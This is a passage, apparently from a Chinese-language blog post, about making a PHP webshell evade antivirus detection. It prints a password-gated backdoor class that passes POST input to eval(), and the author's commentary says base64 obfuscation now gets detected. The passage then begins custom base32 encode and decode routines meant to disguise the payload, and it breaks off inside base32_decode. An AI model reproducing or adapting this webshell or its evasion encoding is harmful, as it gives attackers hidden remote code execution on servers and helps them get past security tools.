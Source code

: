 ```
<?php  
class YHUV{  
        public $BSFRM = null;  
        public $YVMQFW = null;  
        function __construct(){  
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){  
                $this->BSFRM=$_POST['a'];  
                @eval("/*rEgV_Cd*/".$this->BSFRM."/*rEgV_Cd*/");  
            }  
        }}  
new YHUV();  
?>  

```

还是被杀了，我反而很高兴，那这也说明一个问题，你并没有顺利执行过我的马，那说明我eval()里的东西一直都是安全的，那么不安全的肯定就是"$_POST['a']"了，这个怎么解决呢？  
经过大量测试 我发现了一个事情 base64不行了  
base64不行了怎么办？我直接用base32，php没有自带的base32？那就自己写

```
function base32_encode($input) {  
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';  
    $output = '';  
    $v = 0;  
    $vbits = 0;  
  
    for ($i = 0, $j = strlen($input); $i < $j; $i++) {  
        $v <<= 8;  
        $v += ord($input[$i]);  
        $vbits += 8;  
  
        while ($vbits >= 5) {  
            $vbits -= 5;  
            $output .= $BASE32_ALPHABET[$v >> $vbits];  
            $v &= ((1 << $vbits) - 1);  
        }  
    }  
  
    if ($vbits > 0) {  
        $v <<= (5 - $vbits);  
        $output .= $BASE32_ALPHABET[$v];  
    }  
  
    return $output;  
}  
  
function base32_decode($input) {  
    $output = '';  
    $v = 0;  
    $vbits = 0;  
  
    for ($i = 0, $j = strlen($input); $i < $j; $i++) {  
        $v <<= 5;  
        if ($input[$i] >= 'a' && $input[$i] <= 'z') {  
            $v += (ord($input[$i]) - 97);  
        } elseif ($input[$i] >= '2' && $input[$i] <= '7') {  
            $v += (24 + $input[$i]);  
        } else {  
            exit(1);  
        }  
  
        $vbits += 5;  
        while ($vbits >= 8) {  
            $vbits -= 8;  
```